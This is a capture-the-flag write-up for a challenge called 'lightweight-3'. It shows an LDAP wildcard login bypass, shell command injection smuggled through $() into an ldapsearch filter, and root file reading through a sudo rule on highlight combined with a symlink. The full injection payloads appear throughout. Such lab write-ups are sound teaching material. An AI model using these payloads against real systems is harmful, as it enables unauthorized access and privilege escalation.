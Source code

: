 # lightweight-3

### Enumeration

We are greeted by a simple login page. Trying different special characters reveals that it acts in a different way for these characters: `*`, `(`, `)`.

Parentheses cause a 500 error, and `*` lets us bypass the login - it's what we would expect from LDAP, and definitely not SQL. "Lightweight" could be a hint - LDAP stands for Lightweight Directory Access Protocol.

So by putting `username=*&password=*` we can bypass the auth.

This time we see some new text:

```
Hello Employee! To assist with your prism sales, feel free to explore our cutting-edge prism database:
```

Selecting one of the options and clicking `Search` makes a request: `GET /search?prism=BigPrism`

The output looks like the output of a `ldapsearch` command. We should try command injection.

### Command Injection

```
GET /search?prism='
```

returns: `/bin/sh: 1: Syntax error: ")" unexpected`. Just trying to break out of the command using `;` returns an error:

```json
{"error":"Bad characters detected"}
```

This leaves either adding flags to the command, or using `$()`. In the original output of `ldapsearch` we also see where exactly we are injecting:

```
filter: (&(objectclass=prismProduct)(cn=BigPrism))
----------------------------------------^
here
```

It allows us to craft an input which properly executes without guessing:

```
prism=))'+$(whoami)+'$((
```

...which returns:

```json
{
    "data":"# extended LDIF\n#\n# LDAPv3\n# base <ou=prisms,dc=bts,dc=ctf> with scope subtree\n# filter: (&(objectclass=prismProduct)(cn=))\n# requesting: prism $(()) \n#\n\n# search result\nsearch: 2\nresult: 0 Success\n\n# numResponses: 1\n",
    "image":null
}
```

We see that we are running as `prism`. Listing the currect directory and reading a file named `hint` reveals: "Flag is in /root/flag.txt :)". So we need to escalate from `prism` to `root`.

### Escalation

Let's try `sudo -l`:

```
prism=))'+$(sudo+-l)+'$((
```

Unfortunately it returns a weird ldap filter error starting with `ldapsearch: invalid option -- 'i'`. Probably the output contained something which was interpreted by `ldapsearch`. Base64 encoding helps:

```
prism=))'+$(sudo+-l|base64+-w0)+'$((
```

Decoded output:

```
Matching Defaults entries for prism on 3d8bb04bd441:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prism may run the following commands on 3d8bb04bd441:
    (ALL) NOPASSWD: /usr/bin/highlight -i /home/prism/*
```

This is the crucial line:

```
(ALL) NOPASSWD: /usr/bin/highlight -i /home/prism/*
```

`highlight` is in [GTFOBins](https://gtfobins.github.io/gtfobins/highlight/), with a sudo section:

```sh
LFILE=file_to_read
sudo highlight --no-doc --failsafe "$LFILE"
```

Before reading the flag we have to bypass the path pattern `/home/prism/*` by creating a symlink to `/root/flag.txt`:

```
prism=))'+$(ln+-s+/root/flag.txt+/home/prism/flag.txt)+'$((
```

This is the final request to read the flag:

```
prism=))'+$(sudo+/usr/bin/highlight+-i+/home/prism/flag.txt)+'$((
```
